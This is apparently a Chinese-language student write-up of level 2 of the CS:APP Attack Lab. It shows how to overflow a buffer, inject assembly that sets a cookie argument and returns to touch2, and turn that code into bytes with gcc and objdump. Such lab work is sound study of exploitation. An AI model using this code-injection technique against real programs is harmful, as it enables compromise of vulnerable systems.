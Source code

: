> - 如何使用工具生成指令序列的字节级表示形式？

目的就是用字符串执行`touch2`函数，并使参数`val`等于`cookie`值。

和`level 1`类似，依然需要利用`getbuf`的缓冲区溢出漏洞，只不过在重定向至`touch2`之前需要将`cookie`值传入`％rdi`寄存器（函数的第一个参数）。

实现这个功能，造成了与`level 1`的不同之处——需要在编写的汇编代码中实现传入`cookie`值、返回到`touch2`这两个功能，而如何才能让程序执行我们编写的这段代码？因为可以将缓冲区溢出部分设置为任意地址来实现跳转，而且这段代码就存放于缓冲区中，所以可以将缓冲区溢出部分设置为**缓冲区（`%rsp`）的起始地址**，这样就可以跳转到我们编写的这段代码了。

---

明确思路后，寻找`touch2`地址：

```assembly
00000000004017ec <touch2>:
  ...
```

为`0x4017ec`。

---

编写汇编代码（**注意末尾的空行**）并保存为`touch2.s`文件：

```assembly
mov    $0x59b997fa,%rdi    # cookie
push   $0x4017ec           # touch2
ret

```

先传入`cookie`值，再将`touch2`地址压入栈中，执行`ret`时弹栈返回。由于栈的后进先出特点，返回地址即为后压入栈中的`0x4017ec`。

---

<span id ="generateq">[如何将汇编代码转换成字节码（机器码）？](#generate)</span>

将`touch2.s`文件进行汇编：

```shell
gcc -c touch2.s
```

反汇编：

```shell
objdump -d touch2.o
```

得到输出如下：

```shell

touch2.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```
